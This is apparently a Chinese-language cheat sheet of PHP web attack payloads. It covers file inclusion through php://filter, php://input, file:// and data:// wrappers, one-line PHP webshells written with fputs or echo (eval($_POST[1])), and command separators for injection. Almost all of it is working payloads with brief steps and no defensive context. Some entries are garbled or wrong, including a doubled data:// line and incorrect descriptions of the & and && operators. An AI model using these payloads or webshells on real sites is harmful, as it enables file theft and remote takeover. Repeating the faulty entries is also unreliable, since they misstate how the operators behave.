### php://filter

```
php://filter/read=convert.base64-encode/resource=index.php
php://filter/read=convert.base64-encode/resource=../../../a.txt
base64解码
```

### php://input

```
allow_url_include：on
http://127.0.0.1/?file=php://input
抓包->改为POST请求->请求内容为要执行的PHP代码
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[1]); phpinfo(); ?>'); ?>
```

### file://

```
使用绝对路径
file://D:/a.txt
```

### data://

```
allow_url_fopen ：on
allow_url_include：on
data://text/plaindata://text/plain,<?php%20phpinfo()?>
data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
```

------





## RCE命令执行

写入木马

```
fputs(fopen('a.php','w'),'<?php eval($_POST[1]); phpinfo(); ?>');
echo '<?php @eval($_POST[1]);?>' > a.php
```

过滤分割符

```
; //两条命令都执行,windows不支持
| // 管道
|| //上一条命令执行失败后，才执行下一条命令
& //先执行command2后执行command1
&& //先执行command1后执行command2
```
